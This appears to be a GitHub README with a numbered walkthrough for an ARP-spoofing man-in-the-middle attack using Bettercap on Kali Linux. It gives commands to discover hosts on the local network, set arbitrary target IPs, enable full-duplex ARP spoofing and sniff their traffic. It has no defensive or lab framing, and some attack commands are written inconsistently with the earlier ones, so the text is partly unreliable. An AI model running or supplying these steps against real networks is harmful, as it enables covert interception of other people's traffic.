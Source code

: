 # INSTRUCTIONS:
1. Open a terminal on kali linux and install Bettercap tool

2. For installation run
&emsp;&emsp;&emsp;$ sudo su <br>
&emsp;&emsp;&emsp;$ apt-get install bettercap

3. Or clone the git repository of Bettercap from github to your kali machine

4. Run the following commands for the target ip addresses on the network, <br>
&emsp;&emsp;&emsp;Open a terminal <br>
&emsp;&emsp;&emsp;$ sudo bettercap <br>
&emsp;&emsp;&emsp;$ net.probe on  (To discover the targets) <br>
&emsp;&emsp;&emsp;$ net.recon on (To discover more targets on the network) <br>
&emsp;&emsp;&emsp;$ net.show (To display target ip addresses) <br>
&emsp;&emsp;&emsp;Now we can see all the ip addresses in our network

5. Now set the fullduplex mode to true  <br>
&emsp;&emsp;&emsp;$ set arp.spoof.fullduplex true

6. Then give the targets by seperating with commas <br>
&emsp;&emsp;&emsp;$ set arp.spoof.targets ip1,ip2,ip3....

7. Now run the following commands to start the attack <br>
&emsp;&emsp;&emsp;$ arp.spoof.on <br>
&emsp;&emsp;&emsp;$ net.sniff.on

8. Now check the attack by using any browser, if the bettercap is capturing the packets then the attack is working properly.

9. To exit the attack run <br>
&emsp;&emsp;&emsp;$ exit

10. That's it, you did it.
